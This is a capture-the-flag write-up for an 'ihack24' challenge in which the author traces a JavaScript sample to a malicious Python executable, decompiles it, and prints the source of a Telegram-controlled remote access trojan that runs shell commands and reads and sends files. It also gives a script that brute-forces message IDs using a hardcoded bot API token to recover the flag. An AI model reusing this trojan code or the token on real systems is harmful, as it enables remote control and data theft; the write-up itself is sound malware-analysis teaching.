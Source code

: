 # Confusing Javascript

***

## Reference

{% embed url="https://zachwong02.github.io/post/malware-finds-a-way/" %}

***

## Solution

Given a javascript file.&#x20;

`eb925a1589f0c98b5550d3f176a141386bd8285cab874b5ed650535d4a1c0f16.js: JavaScript source, Unicode text, UTF-8 text, with very long lines (766), with CRLF line terminators`



Notice that the filename looks like a hash. Initial step taken was putting the filename into VirusTotal.

Link [here](https://www.virustotal.com/gui/file/eb925a1589f0c98b5550d3f176a141386bd8285cab874b5ed650535d4a1c0f16/detection)

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

From here, the solution can go faster for this challenge without opening the javascript file.

The link provided by the VirusTotal contains a[ github repository with a malicious executable](https://github.com/Hrztrm/refactored-bassoon).&#x20;

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Download the `taskmanager.exe` for further analysis.

Upon analysing the file using **strings** command suggest that the executable file was built using Python.

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Decompile the executable to its source code using [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) .

`python3 pyinstxtractor.py taskmanager.exe`

There a lot of files in the executable. The most interesting one is **PythonTelegramBot.pyc**

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Extract the pyc file to source code using [pycdc](https://github.com/zrax/pycdc)

`pycdc PythonTelegramBot.pyc`

The source code should be something like below.

```python
# Source Generated with Decompyle++
# File: PythonTelegramBot.pyc (Python 3.10)

import telebot
import platform
import subprocess
BOT_API_KEY = '6610257712:AAFq_tYFDs5ZpWttF94KchKyzULBVQUW0PY'
telegram_user_id = 0x1724E8650
bot = telebot.TeleBot(BOT_API_KEY)

def verify_telegram_id(id):
    return telegram_user_id == id


def execute_system_command(cmd):
    max_message_length = 2048
    output = subprocess.getstatusoutput(cmd)
    if len(output[1]) > max_message_length:
        return str(output[1][:max_message_length])
    return None(output[1])


def begin(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    hostname = None('hostname')
    current_user = execute_system_command('whoami')
    response = f'''Running as: {hostname}/{current_user}'''
    bot.reply_to(message, response)

begin = bot.message_handler([
    'start'], **('commands',))(begin)

def injectFlag(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    Flag = None('type flag.txt')
    bot.reply_to(message, Flag)

injectFlag = bot.message_handler([
    'flag'], **('commands',))(injectFlag)

def view_file(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    if None(message.text.split(' ')) != 2:
        return None
    file_path = None.text.split(' ')[1]
    result = ''
    if platform.system() == 'Windows':
        result = execute_system_command(f'''type {file_path}''')
    else:
        result = execute_system_command(f'''cat {file_path}''')
    bot.reply_to(message, result)

view_file = bot.message_handler([
    'viewFile'], **('commands',))(view_file)

def download_file(message):
Unsupported opcode: RERAISE
    if not verify_telegram_id(message.from_user.id):
        return None
    if None(message.text.split(' ')) != 2:
        return None
    file_path = None.text.split(' ')[1]
# WARNING: Decompyle incomplete

download_file = bot.message_handler([
    'downloadFile'], **('commands',))(download_file)

def handle_document_upload(message):
Unsupported opcode: RERAISE
    if not verify_telegram_id(message.from_user.id):
        return None
# WARNING: Decompyle incomplete

handle_document_upload = bot.message_handler([
    'document'], **('content_types',))(handle_document_upload)

def handle_any_command(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    if None.text.startswith('/start'):
        return None
    response = None(message.text)
    bot.reply_to(message, response)

handle_any_command = bot.message_handler()(handle_any_command)
bot.infinity_polling()
```

Based on the code above, the assumption is that the flag is stored in a chat between the author and the bot.&#x20;

The specific message stored by the bot needs to be forwarded using the `forwardMessage` Telegram API call method. With the **bot API key** and **chat ID** available, the API request can be constructed once the missing part, which is the **message ID**, is found



The API request should look like this:

`https://api.telegram.org/bot<api_key>/forwardMessage?from_chat_id=<chat_id>&message_id=<message_id>&chat_id=<chat_id>`



Create a python script to brute force the **message id**.

```python
import requests

api_url = "https://api.telegram.org/bot{}/forwardMessage"

bot_token = "6610257712:AAFq_tYFDs5ZpWttF94KchKyzULBVQUW0PY"

from_chat_id = "6212716112"
chat_id = "6212716112"
start_message_id = 0

def brute_force_message_id():
    message_id = start_message_id
    while True:
        try:
            response = requests.post(
                api_url.format(bot_token),
                data={
                    "from_chat_id": from_chat_id,
                    "message_id": message_id,
                    "chat_id": chat_id
                }
            )
            if response.status_code == 200:
                response_data = response.json()
                if 'result' in response_data and 'ihack' in str(response_data):
                    print(f"Found 'ihack' in message ID {message_id}")
                    break
            else:
                print(f"Failed to forward message ID {message_id}: {response.status_code}")

        except requests.exceptions.RequestException as e:
            print(f"Error: {e}")
            break

        message_id += 1
        print(message_id)

if __name__ == "__main__":
    brute_force_message_id()
```



Then, message ID number 173 was received, and the request now appears as follows:

{% embed url="https://api.telegram.org/bot6610257712:AAFq_tYFDs5ZpWttF94KchKyzULBVQUW0PY/forwardMessage?from_chat_id=6212716112&message_id=173&chat_id=6212716112" %}

The flag will be shown in a json format as below

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

***

## Flag

ihack24{fr0m\_J4V45Cr1p7\_2\_73L39r4m}
